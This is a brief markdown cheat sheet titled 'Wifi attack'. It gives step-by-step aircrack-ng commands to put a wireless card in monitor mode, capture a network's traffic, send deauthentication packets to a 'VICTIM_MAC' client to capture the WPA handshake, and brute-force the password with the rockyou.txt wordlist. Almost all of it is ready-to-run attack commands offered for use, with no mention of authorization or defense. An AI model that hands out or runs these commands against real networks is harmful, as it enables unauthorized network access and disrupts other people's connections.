 # Wifi attack

### 1. Switch mode from managed to monitor

```bash
airmon-ng start wlan0
```

To check if monitor mode is on:
(Name of Wi-Fi card could be changed wlan0 --> wlan0mon)

```bash
iwconfig
```

### 2. Show all of the traffic 

```bash 
airodump-ng wlan0

Show network specific traffic:
airodump-ng -d "AP_MAC" -w "DUMPFILE_NAME" -c "CHANNEL" wlan0
```

Keep airodump open

### 3. Send de-auth packets to victim client 

```bash
aireplay-ng -0 10 -a "AP_MAC" -c "VICTIM_MAC" wlan0
```

Might take a few tries (repeat command if necessary)
If successful, airodump will show ```WPA handshake: "AP_MAC"``` --> close airodump

### 4. Crack the password
This method uses the rockyou.txt wordlist to crack the password by brute force

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt "DUMPFILE_NAME.cap"
```


Tip:
Unpack .gz file: gzip -d "filename.gz"

#Kali
```
```